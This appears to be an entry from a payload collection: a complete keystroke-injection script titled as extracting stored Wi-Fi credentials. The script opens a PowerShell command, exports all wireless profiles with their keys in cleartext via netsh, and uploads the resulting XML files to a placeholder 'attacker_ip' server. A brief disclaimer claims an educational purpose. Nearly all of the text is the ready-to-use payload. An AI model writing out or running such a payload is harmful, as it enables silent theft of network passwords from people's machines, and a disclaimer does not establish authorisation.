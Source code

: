 # Extracting and Sending Stored Wi-Fi Credentials

Extracts Wi-Fi credentials and sends them to a remote server.

```
DELAY 500
GUI r
DELAY 200
STRING powershell -Command "netsh wlan export profile key=clear folder='C:\\Users\\User\\Documents\\wifi_credentials'"
ENTER
DELAY 500
STRING powershell -Command "Invoke-WebRequest -Uri 'http://attacker_ip/upload' -Method POST -InFile 'C:\\Users\\User\\Documents\\wifi_credentials\\*.xml'"
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.